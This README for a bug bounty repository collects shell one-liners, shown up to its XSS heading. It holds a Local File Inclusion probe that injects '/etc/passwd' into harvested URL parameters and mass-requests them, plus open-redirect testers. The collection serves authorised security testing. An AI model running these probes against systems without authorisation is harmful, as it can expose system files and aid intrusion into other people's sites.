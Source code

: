 > A collection of awesome one-liner scripts especially for bug bounty.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

## Definitions

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#definitions)

This section defines specific terms or placeholders that are used throughout one-line command/scripts.

- 1.1. "**HOST**" defines one hostname, (sub)domain, or IP address, e.g. replaced by `internal.host`, `domain.tld`, `sub.domain.tld`, or `127.0.0.1`.
- 1.2. "**HOSTS.txt**" contains criteria 1.1 with more than one in file.
- 2.1. "**URL**" definitely defines the URL, e.g. replaced by `http://domain.tld/path/page.html` or somewhat starting with HTTP/HTTPS protocol.
- 2.2. "**URLS.txt**" contains criteria 2.1 with more than one in file.
- 3.1. "**FILE.txt**" or "**FILE**`{N}`**.txt**" means the files needed to run the command/script according to its context and needs.
- 4.1. "**OUT.txt**" or "**OUT**`{N}`**.txt**" means the file as the target storage result will be the command that is executed.

---

### Local File Inclusion

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#local-file-inclusion)

> @dwisiswant0

```shell
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#open-redirect)

> @dwisiswant0

```shell
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

> @N3T_hunt3r

```shell
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

### XSS

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#xss)
